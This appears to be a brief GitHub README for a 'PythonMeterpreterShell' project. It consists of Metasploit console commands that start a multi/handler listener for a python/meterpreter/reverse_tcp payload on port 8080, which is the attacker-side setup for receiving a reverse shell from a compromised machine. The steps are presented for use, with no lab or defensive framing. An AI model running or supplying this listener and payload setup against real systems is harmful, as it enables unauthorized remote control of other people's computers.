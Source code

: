# PythonMeterpreterShell

$ sudo msfconsole
msf6 > use exploit/multi/handler
set payload python/meterpreter/reverse_tcp
set lhost eth0
set lport 8080
exploit -j 
